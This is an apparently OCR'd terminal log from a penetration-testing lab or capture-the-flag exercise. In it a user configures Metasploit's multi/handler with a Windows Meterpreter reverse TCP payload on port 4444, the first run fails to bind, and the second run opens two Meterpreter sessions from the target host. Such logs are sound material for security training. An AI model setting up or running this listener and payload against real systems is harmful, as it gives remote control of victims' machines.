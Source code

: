        =[ metasploit v6.0.30-dev-                         ]
+ -- --=[ 2098 exploits - 1129 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Adapter names can be used for IP params 
set LHOST eth0

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > showoptions
[-] Unknown command: showoptions.
msf6 exploit(multi/handler) >  show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[-] Handler failed to bind to 10.10.16.134:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:4444).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.134:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.16.134:4444 -> 10.10.10.5:49189) at 2021-02-10 03:19:46 +0900
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.16.134:4444 -> 10.10.10.5:49190) at 2021-02-10 03:19:48 +0900
